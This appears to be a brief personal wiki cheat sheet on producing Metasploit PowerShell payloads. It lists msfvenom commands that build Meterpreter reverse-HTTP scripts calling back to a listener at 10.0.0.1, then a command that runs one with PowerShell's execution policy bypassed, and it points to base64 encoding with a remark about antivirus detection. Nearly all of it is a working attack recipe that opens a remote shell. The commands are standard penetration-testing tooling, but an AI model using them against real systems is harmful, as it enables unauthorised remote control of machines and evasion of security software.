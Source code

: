 <!-- TITLE: Metasploit Powershell Payload -->
<!-- SUBTITLE: A quick summary of Metasploit Powershell Payload -->

# Header
Grabbed from https://blog.didierstevens.com/2017/08/16/generating-powershell-scripts-with-msfvenom-on-windows/

```
msfvenom -p windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=10.0.0.1
msfvenom -p windows/meterpreter_reverse_http -format psh -out meterpreter-32.ps1 LHOST=10.0.0.1
```

# To Run
```
powershell.exe -ExecutionPolicy Bypass -NoExit -File meterpreter-64.ps1
```

# Didier Steven's base64 encoding
(also caught by some virii but still cool)
https://blog.didierstevens.com/2017/08/26/quickpost-metasploit-powershell-base64-commands/


